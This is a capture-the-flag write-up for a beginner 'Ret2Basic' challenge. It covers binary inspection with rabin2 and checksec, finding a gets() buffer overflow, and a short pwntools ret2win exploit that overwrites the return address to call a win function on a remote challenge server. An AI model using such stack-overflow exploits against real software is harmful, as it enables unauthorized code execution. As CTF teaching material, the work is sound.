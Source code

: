## Ret2Basic 

> **Description** : *Cay you return to win?*
> 
> **Author**: *Author: @M_alpha#3534* 
> 
>**Points**: *50 points*
>


### *Static Analysis*

- Using the `file` command we can see that the binary is an 64-bit ELF binary that is `not stripped` and that is `dynamically linked`.
- Using `rabin2 -i chall` we can see the imports and we can see `gets` this obviously shows there is  a buffer overfow vulnerability in the program.
- `rabin2 -I chall` This will give us more info about the binary including the backended programming language that was used to write the program
- `rabin2 -z chall`: There is an interesting`flag.txt` this is an indication that there is a function that opens and reads the flag
- `checksec` Only NX is enabled in the binary therefore not much protections.

### *Dynamic Analysis*
- Running the binary not much just a statement `can you overflow this?:` this gets our input and exits. 
- Load your favourite debugger and get to work. We can see a function `win` in the binary at the address `0x401215` disassembling this function this is what 
opens the `flag.txt` file.
- Our input is passed to `gets` as predicted earlier and therefore a `bof` therefore we can call `win` and control `rip` because no `stack canaries`.
- That was easy right :P

### *Exploitation*

- The offset is `120` therefore if we load a payload `"A"*120 + <address_of_win>` we call win that reads the flag. Therefore the exploit is a follows
using  `python and pwntools`.
```
#!/usr/bin/python3

from pwn import *

#io = process("./chall")
io = remote("challenge.nahamcon.com", 30413)
elf = ELF("./chall")
offset = 120

def main():
        payload = b"A"*offset
        payload += p64(elf.sym.win)
        io.sendlineafter(":", payload)
        io.interactive()

if __name__ == "__main__":
        main()
#flag{d07f3219a8715e9339f31cfbe09d6502
```
